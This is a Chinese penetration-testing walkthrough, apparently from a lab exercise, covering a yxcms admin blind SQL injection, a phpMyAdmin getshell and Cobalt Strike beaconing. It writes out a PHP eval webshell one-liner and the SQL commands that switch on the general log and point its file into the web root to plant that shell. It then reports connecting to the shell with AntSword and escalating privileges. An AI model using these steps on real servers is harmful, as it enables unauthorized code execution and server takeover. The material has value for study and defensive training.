 ##### 3.2.1.5  漏洞五：yxcms后台SQL注入漏洞

在后台的碎片列表中进行删除操作，删除碎片ID可能存在盲注漏洞，使用dnslog获取SQL注入得到数据。

*yxcms漏洞代码原理解析参考文章`https://www.freebuf.com/column/162886.html`*

##### 3.2.1.6  漏洞六：PhpMyAdmin开启全局日志getshell

首先测试是否可以使用select into outfile直接写入

```sql
Select '<?php eval($_POST[hack]);?> ' into outfile 'C:/phpStudy/WWW/hack.php'
```

![](18.png)

写入失败， `show global variables like ‘%secure%’`查看变量secure-file-priv  值为NULL，且为只读无法修改。

尝试使用全局日志写入shell，查看全局变量general_log：`show global variables like ‘%general_%’`

![](19.png)

开启全局日志并修改日志保存位置为C:/phpStudy/WWW/hack.php

```sql
set global general_log=on;
set global general_log_file='C:/phpStudy/WWW/hack.php';
```



![](20.png)

查询一句话写入日志`Select '<?php eval($_POST[hack]);?>'`

![](21.png)

使用蚁剑连接一句话木马`http://192.168.1.102/hack.php`

![](22.png)

### 3.3 CS上线GetShell

CS客户端服务端都部署在192.168.1.236主机上，创建监听并生成powershell

![](23.png)

时间反应比较慢，建议多执行几次并等一会

提权成功

![](24.png)

### 3.4 系统信息收集

查看网卡

![](25.png)
